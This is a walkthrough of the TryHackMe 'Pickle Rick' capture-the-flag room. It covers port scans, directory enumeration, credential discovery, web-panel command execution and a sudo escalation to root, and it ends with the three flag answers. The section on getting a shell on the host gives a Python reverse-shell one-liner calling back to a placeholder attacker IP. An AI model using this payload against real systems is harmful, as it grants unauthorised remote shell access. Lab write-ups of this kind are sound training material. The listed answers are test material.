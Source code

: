# Pickle Rick

A Rick and Morty CTF. Help turn Rick back into a human!

Room link: https://tryhackme.com/room/picklerick
Difficulty: **Easy**

### Walkthrough

Running an initial Nmap scan against all ports shows both port 22 (SSH) and 80 (HTTP) are open:

```console
$ nmap -p- -T4 10.10.76.19 -oN scans/initial.nmap   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-25 09:09 GMT
Nmap scan report for 10.10.76.19
Host is up (0.040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 29.99 seconds
```

Running a full scan against these ports show Apache version `2.4.18` is running on an Ubuntu sytem:

```console
$ nmap -p 22,80 -A -T4 10.10.76.19 -oN scans/open_ports.nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-25 09:13 GMT
Nmap scan report for 10.10.76.19
Host is up (0.031s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:83:cb:9c:49:59:9e:8f:2d:41:f6:9f:df:40:84:32 (RSA)
|   256 1d:2b:0f:3a:92:c0:32:3a:74:c3:24:2a:88:0f:0f:ee (ECDSA)
|_  256 74:e8:31:f4:b4:0d:48:5b:87:60:4f:64:54:9b:f2:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 5.4 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 5.0 - 6.0.1 (Linux 3.4) (93%), Android 5.1 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   28.70 ms 10.9.0.1
2   29.23 ms 10.10.76.19

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.21 seconds
```

Navigating to the website shows the following homepage which states Rick has forgotten his password and his three secret ingredients for his pickle-reverse potion:

![Pickle Rick - Homepage](picklerick_homepage.png)

Reviewing the source code reveals the username is `R1ckRul3s`

![Pickle Rick - Sourcecode](picklerick_sourcecode.png)

Checking `/robots.txt` shows the following text:

```
Wubbalubbadubdub
```

Running `gobuster` with a medium-length dictionary list does not reveal any hidden paths:

```console
$ gobuster dir -u http://10.10.76.19/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.76.19/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/11/25 09:18:45 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 311] [--> http://10.10.76.19/assets/]
/server-status        (Status: 403) [Size: 299]
Progress: 220444 / 220561 (99.95%)
===============================================================
2023/11/25 09:30:37 Finished
===============================================================
```

Nikto scan identifies a `login.php` page:

```console
$ nikto -h 10.10.76.19               
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.76.19
+ Target Hostname:    10.10.76.19
+ Target Port:        80
+ Start Time:         2023-11-25 09:32:09 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ OPTIONS: Allowed HTTP Methods: OPTIONS, GET, HEAD, POST .
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /login.php: Admin login page/section found.
+ 8074 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2023-11-25 09:37:40 (GMT0) (331 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Navigating to this page shows a simple login form:

![Pickle Rick - Login](picklerick_login_php.png)

Using the username and string from `robots.txt` as the credentials (`R1ckRul3s:Wubbalubbadubdub`) allows us to successfully log in. At which point, we are presented with a command panel, allowing us to interact with the host via built-in commands:

![Pickle Rick - Portal](picklerick_portal.png)

For example, running `ls` returns the directory listing:

![Pickle Rick - ls](picklerick_ls.png)

However, attempting to run `cat` against the files results in the following error:

![Pickle Rick - Command Disabled](picklerick_command_disabled.png)

Fortunately, the `less` command is not denied, allowing us to read the first ingredient:

![Pickle Rick - Less](picklerick_less_ingred1.png)

```
mr. meeseek hair
```

Viewing `clue.txt` indicates we can look through the filesystem for the other ingredient:

![Pickle Rick - Clue](picklerick_clue.png)

First, let's get a shell on the host so that we can navigate through the filesystem easier. We can use a Python one-liner from [PentestMonkey's Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), modifying it with our attacker IP and chosen listen port:

![Pickle Rick - Which Python3](picklerick_which_python3.png)

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This results in a successful callback to our attacker machine:

![Pickle Rick - Callback](picklerick_callback.png)

Stabilising the shell with the following commands:

```console
$ python3 -c "import pty; pty.spawn('/bin/bash')"
$ export TERM=xterm
```

Looking around the filesystem, we identify the `rick` user in `/home`:

![Pickle Rick - Rick User](picklerick_rick_user.png)

Within their `/home` directory, there is a `second ingredients` file which we can read:

![Pickle Rick - Ingredient](picklerick_ingredient2.png)

```
1 jerry tear
```

Now we must escalate our privileges in order to find the 3rd and final ingredient. To do this, we can run `sudo -l` to see if there are any privileges granted to the `www-data` user


![Pickle Rick - Sudo -l](picklerick_sudo_l.png)

From the above, we can see that the user can run any `sudo` command without requiring password authentication. This means we can simply run `sudo su` to switch to the `root` user:

```console
$ sudo su
```

![Pickle Rick - Privesc](picklerick_privesc.png)

Finally, we can read the third ingredient:

![Pickle Rick - Ingredient 3](picklerick_ingredient3.png)

```
fleeb juice
```

-----

1. What is the first ingredient that Rick needs?

```
mr. meeseek hair
```

2. What is the second ingredient in Rick’s potion?

```
1 jerry tear
```

3. What is the last and final ingredient?

```
fleeb juice
```